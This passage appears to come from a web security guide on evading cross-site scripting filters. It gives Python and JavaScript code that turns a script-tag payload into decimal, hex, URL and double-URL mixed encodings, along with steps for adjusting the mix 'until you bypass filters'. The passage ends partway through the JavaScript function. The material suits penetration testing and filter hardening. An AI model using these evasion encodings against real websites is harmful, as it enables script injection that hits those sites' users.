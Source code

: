        # Example
       xss_payload = "<script>alert('XSS')</script>"
       
       decimal_encoded = html_encode_payload(xss_payload, "decimal")
       hex_encoded = html_encode_payload(xss_payload, "hex")
       
       # Mixed encoding (harder to detect)
       mixed_encoded = ""
       for i, char in enumerate(xss_payload):
           if i % 3 == 0:
               mixed_encoded += "&#" + str(ord(char)) + ";"
           elif i % 3 == 1:
               mixed_encoded += "&#x" + hex(ord(char))[2:] + ";"
           else:
               mixed_encoded += char
       
       print("Original:", xss_payload)
       print("Decimal:", decimal_encoded)
       print("Hex:", hex_encoded)
       print("Mixed:", mixed_encoded)
       ```

    2. **Mixed encoding techniques**:
       - Step 1: Divide your payload into segments
       - Step 2: Apply different encoding schemes to each segment
       - Step 3: Combine the segments to create a payload with mixed encoding
       - Step 4: Test if the application decodes all formats correctly
       - Step 5: Adjust the encoding mix until you bypass filters
       - Example: `<script>` as `<scr&#105;pt>` or `<scr%69pt>`
       - Advanced technique: Randomize encoding for each character
       - Testing insight: Mixed encoding often reveals inconsistencies in decoding routines
       - JavaScript function for mixed encoding:
       ```javascript
       function mixedEncode(payload) {
           const encodingTypes = ["none", "html", "htmlHex", "url", "urlDouble"];
           let result = "";
           
           for (let i = 0; i < payload.length; i++) {
               // Choose encoding type pseudo-randomly but deterministically
               const encodingType = encodingTypes[i % encodingTypes.length];
               const char = payload[i];
               
               switch (encodingType) {
                   case "none":
                       result += char;
                       break;
                   case "html":
                       result += "&#" + char.charCodeAt(0) + ";";
                       break;
                   case "htmlHex":
                       result += "&#x" + char.charCodeAt(0).toString(16) + ";";
                       break;
                   case "url":
                       result += "%" + char.charCodeAt(0).toString(16).padStart(2, '0');
                       break;
                   case "urlDouble":
                       // Double URL encoding
                       const hexCode = char.charCodeAt(0).toString(16).padStart(2, '0');
                       result += "%25" + hexCode;
                       break;
               }
           }
           